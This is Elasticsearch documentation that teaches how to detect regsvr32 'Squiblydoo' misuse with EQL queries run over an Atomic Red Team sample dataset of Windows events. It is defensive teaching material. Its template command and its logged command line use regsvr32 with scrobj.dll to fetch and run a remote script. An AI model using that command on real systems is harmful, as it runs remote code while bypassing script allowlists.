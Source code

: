[role="xpack"]
[testenv="basic"]
[[eql-ex-threat-detection]]
== Example: Detect threats with EQL

beta::[]

This example tutorial shows you how you can use EQL to detect security threats
and other suspicious behavior. In the scenario, you're tasked with detecting
https://attack.mitre.org/techniques/T1218/010/[regsvr32 misuse] in Windows
event logs.

`regsvr32.exe` is a built-in command-line utility used to register `.dll`
libraries in Windows. As a native tool, `regsvr32.exe` has a trusted status in
Windows, letting it bypass most allowlist software and script blockers.
Attackers with access to a user's command line can use `regsvr32.exe` to run
malicious scripts using `.dll` libraries, even on machines that otherwise
disallow such scripts.

One common variant of regsvr32 misuse is a
https://attack.mitre.org/techniques/T1218/010/[Squiblydoo attack]. In a
Squiblydoo attack, a `regsvr32.exe` command uses the `scrobj.dll` library to
register and run a remote script. These commands often look like this:

[source,sh]
----
"regsvr32.exe  /s /u /i:<script-url> scrobj.dll"
----

[discrete]
[[eql-ex-threat-detection-setup]]
=== Setup

This tutorial uses a test dataset for regsvr32 misuse from
https://github.com/redcanaryco/atomic-red-team[Atomic Red Team]. The dataset has
been normalized and mapped to use fields from the {ecs-ref}[Elastic Common
Schema (ECS)], including the `@timestamp` and `event.category` fields. The
dataset includes events that imitate behaviors of a Squiblydoo attack, as
documented in the https://attack.mitre.org[MITRE ATT&CK®] knowledge base.

To get started, download and index the dataset:

. Download the https://raw.githubusercontent.com/elastic/elasticsearch/{branch}/docs/src/test/resources/normalized-T1117-AtomicRed-regsvr32.json[`normalized-T1117-AtomicRed-regsvr32.json`] dataset.

. Index the data into `my-index-000001` with the following <<docs-bulk,bulk
API>> request:
+
[source,sh]
----
curl -H "Content-Type: application/json" -XPOST "localhost:9200/my-index-000001/_bulk?pretty&refresh" --data-binary "@normalized-T1117-AtomicRed-regsvr32.json"
----
// NOTCONSOLE

. Use the <<cat-indices,cat indices API>> to verify the data was successfully
indexed.
+
[source,console]
----
GET /_cat/indices/my-index-000001?v&h=health,status,index,docs.count
----
// TEST[setup:atomic_red_regsvr32]
+
The API response should show a `docs.count` value of `150`, indicating 150
documents were indexed.
+
[source,txt]
----
health status index            docs.count
yellow open   my-index-000001         150
----
// TESTRESPONSE[non_json]

[discrete]
[[eql-ex-get-a-count-of-regsvr32-events]]
=== Get a count of regsvr32 events

Since you're looking for regsvr32 misuse, start by getting a count of any
events associated with a `regsvr32.exe` process.

The following <<eql-search-api,EQL search API>> request uses an EQL query to
retrieve a count of events with a `process.name` of `regsvr32.exe`. The query
starts with the <<eql-syntax-match-any-event-category,`any where` keywords>>,
meaning the query can match events of any <<eql-required-fields,event
category>>.

[source,console]
----
GET /my-index-000001/_eql/search?filter_path=-hits.events   <1>
{
  "query": """
    any where process.name == "regsvr32.exe"                <2>
  """,
  "size": 200                                               <3>
}
----
// TEST[setup:atomic_red_regsvr32]

<1> Uses the `?filter_path=-hits.events` query parameter to exclude the
`hits.events` property from the response. The `hits.events` property contains
the document source for any matching events. This request is intended to
retrieve a count of events only.
<2> Uses an EQL query to match events with a `process.name` of `regsvr32.exe`.
<3> Returns up to 200 events or sequences matching the EQL query.

The request returns the following response, indicating that 143 events match the
query.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 60,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 143,
      "relation": "eq"
    }
  }
}
----
// TESTRESPONSE[s/"took": 60/"took": $body.took/]

[discrete]
[[eql-ex-check-for-command-line-artifacts]]
=== Check for command line artifacts

Based on your previous query, you know regsvr32 processes were associated with
143 events. But how was `regsvr32.exe` first called? And who called it?

`regsvr32.exe` is a command-line utility so it may help to narrow your results
to processes where the command line was used.

Update the previous EQL query as follows:

* Change the `any` keyword to `process`. This limits matches to events with an
`event.category` of `process`.
* Add the `and process.command_line.keyword != null` condition to match only
events with a command line value.

You'll also need to remove the `filter_path=-hits.events` query parameter. This
lets you retrieve the document source for any matching events.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    process where process.name == "regsvr32.exe" and process.command_line.keyword != null
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches one process event. The event has an `event.type` of
`creation`, indicating the start of a `regsvr32.exe` process.

Based on the `process.command_line` value in the response, `regsvr32.exe` used
`scrobj.dll` to register a script, `RegSvr32.sct`. This fits the behavior of a
Squiblydoo attack.

The response also includes other valuable information about how the
`regsvr32.exe` process started, such as the `@timestamp`, the associated
`user.id`, and the `process.parent.name`.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 21,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "my-index-000001",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_source": {
          "process": {
            "parent": {
              "name": "cmd.exe",
              "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable": "C:\\Windows\\System32\\cmd.exe"
            },
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable": "C:\\Windows\\System32\\regsvr32.exe",
            "ppid": 2652
          },
          "logon_id": 217055,
          "@timestamp": 131883573237130000,
          "event": {
            "category": "process",
            "type": "creation"
          },
          "user": {
            "full_name": "bob",
            "domain": "ART-DESKTOP",
            "id": "ART-DESKTOP\\bob"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 21/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-check-for-malicious-script-loads]]
=== Check for malicious script loads

You now know that a `regsvr32.exe` process was used to register a potentially
malicious script, `RegSvr32.sct`. Next, see if `regsvr32.exe` later loads the
`scrob.dll` library.

Modify the previous EQL query as follows:

* Change the `process` keyword to `library`.
* Replace the `process.command_line.keyword != null` condition with
`dll.name == "scrobj.dll`.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    library where process.name == "regsvr32.exe" and dll.name == "scrobj.dll"
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches an event, confirming `scrobj.dll` was later loaded by
`regsvr32.exe`.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 5,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "my-index-000001",
        "_id": "ol5MJXMBMk1dGnErnBW8",
        "_source": {
          "process": {
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "executable": "C:\\Windows\\System32\\regsvr32.exe"
          },
          "@timestamp": 131883573237450016,
          "dll": {
            "path": "C:\\Windows\\System32\\scrobj.dll",
            "name": "scrobj.dll"
          },
          "event": {
            "category": "library"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 5/"took": $body.took/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-detemine-likelihood-of-sucess]]
=== Determine the likelihood of success

In many cases, malicious scripts are used to connect to remote servers or
download other files. If this occurred, the attack might have succeeded.

Use an <<eql-sequences,EQL sequence query>> to check for the following series of
events, in order:

. A `regsvr32.exe` process, which could have been used to register malicious
scripts as `scrobj.dll`
. A load of the `scrobj.dll` library by the same process
. Any network event by the same process, which could indicate the download of a
remote file

To match, each event in the sequence must share the same process ID, recorded in
the `process.pid` field.

Based on the command line value seen in the previous result, you can expect to
find a match. However, the sequence query isn't designed for that specific
command. Instead, it looks for a pattern of suspicious behavior while still
being generic enough to detect similar threats in the future.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == "regsvr32.exe"]
      [library where dll.name == "scrobj.dll"]
      [network where true]
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches a sequence, indicating the attack likely succeeded.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 25,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "join_keys": [
          2012
        ],
        "events": [
          {
            "_index": "my-index-000001",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_source": {
              "process": {
                "parent": {
                  "name": "cmd.exe",
                  "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable": "C:\\Windows\\System32\\cmd.exe"
                },
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable": "C:\\Windows\\System32\\regsvr32.exe",
                "ppid": 2652
              },
              "logon_id": 217055,
              "@timestamp": 131883573237130000,
              "event": {
                "category": "process",
                "type": "creation"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              }
            }
          },
          {
            "_index": "my-index-000001",
            "_id": "ol5MJXMBMk1dGnErnBW8",
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "@timestamp": 131883573237450016,
              "dll": {
                "path": "C:\\Windows\\System32\\scrobj.dll",
                "name": "scrobj.dll"
              },
              "event": {
                "category": "library"
              }
            }
          },
          {
            "_index": "my-index-000001",
            "_id": "EF5MJXMBMk1dGnErnBa9",
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "@timestamp": 131883573238680000,
              "destination": {
                "address": "151.101.48.133",
                "port": "443"
              },
              "source": {
                "address": "192.168.162.134",
                "port": "50505"
              },
              "event": {
                "category": "network"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              },
              "network": {
                "protocol": "tcp",
                "direction": "outbound"
              }
            }
          }
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 25/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.0._id/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.1._id/]
// TESTRESPONSE[s/"_id": "EF5MJXMBMk1dGnErnBa9"/"_id": $body.hits.sequences.0.events.2._id/]
